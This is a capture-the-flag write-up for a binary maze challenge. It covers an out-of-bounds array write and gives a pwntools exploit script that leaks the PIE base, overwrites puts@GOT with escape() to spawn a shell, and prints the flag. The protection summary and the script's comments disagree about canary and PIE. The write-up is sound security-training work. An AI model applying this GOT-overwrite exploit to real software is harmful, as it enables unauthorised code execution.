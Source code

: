 # aMAZEing - Writeup

---

## Exploit Demo

This demo illustrates the exploit process:
![Alt text](gif/aMAZEing.gif)

## Challenge Overview

**aMAZEing** is a binary maze game challenge where logic, memory, and vulnerability exploitation come together. The objective is to escape the maze — not through solving it, but by exploiting a flaw in its internal logic.

---

## Binary Details

```bash
$ file maze

```

![Alt text](img/1.png)

```bash
$ checksec maze
```

![Alt text](img/2.png)

### Security Summary

| Protection   | Status  |
| ------------ | ------- |
| RELRO        | Partial |
| Stack Canary | Yes     |
| NX           | Enabled |
| PIE          | Enabled |

---

## Static Analysis (IDA Pro)

Opening the binary in IDA Pro reveals the vulnerable logic in the main game loop.

### Vulnerable Code Fragment

The key logic is found in the part of the code that handles user input for maze configuration:

![Alt text](img/3.png)

### Key Observations

- The array `maze_escape[]` is written to using `[rsi + rax*4]` where `rsi` holds the base address and `rax` is derived from user input.
- There is **no bounds check** on `rax`. A large value will index into memory beyond the buffer and into writable sections such as the GOT.
- This confirms the **out-of-bounds write** that enables us to overwrite a GOT entry.

## Vulnerability Analysis

The program allows the player to configure "coordinates" and "slot values" in the maze. Internally, the game logic uses a buffer called `maze_escape[]`, and inputs are used directly as indices without bounds checks.

```c
scanf("%d", &coordinates);
scanf("%d", &slot);
maze_escape[coordinates] = slot;
```

### Vulnerability: Out-of-Bounds Write

- There is no bounds check on the `coordinates` variable.
- This allows writing to memory beyond the intended array `maze_escape[]`.
- Specifically, it enables overwriting entries in the Global Offset Table (GOT), such as `puts@GOT`.
- By overwriting a GOT entry with the address of the `escape()` function, control flow is redirected to spawn a shell.

---

## Exploitation Plan

1. **Leak the PIE base address**: At startup, the binary prints the runtime address of `main()`, which can be used to calculate the full base address.
2. **Calculate offset to GOT**: Determine how far `puts@GOT` is from `maze_escape[]` in memory.
3. **Overwrite GOT entry**: Use the out-of-bounds vulnerability to overwrite the `puts@GOT` entry with the address of the `escape()` function.
4. **Trigger puts()**: The program will now call `escape()` instead, which executes `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'maze')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

#io = start()
io = remote('localhost',1337)

# --------[BINARY BASE ADDRESS]---------

io.recvuntil(b'The maze begins at this location, your journey starts here @')
leak = io.recvline().strip()
main_addr = int(leak,16)

exe.address = main_addr - exe.sym['main']



offset=(exe.got['puts']-exe.sym['maze_escape'])/4
io.recvuntil(b'Configure coordinates (0 >=) : ')
io.sendline(b'%i' %offset)
io.recvuntil(b'Set slot value (10 >=) : ')
io.sendline(b"%i" %exe.sym['escape'])

io.interactive()

```

---

## Result

The overwritten GOT entry causes the program to call `escape()`, which executes:

```c
system("/bin/sh");
```

A shell is spawned, granting access to the system and allowing flag retrieval.

---

## Flag

```
flag{l0st_1n_th3_4m4z3_w1th_r34l_sh3ll}
```
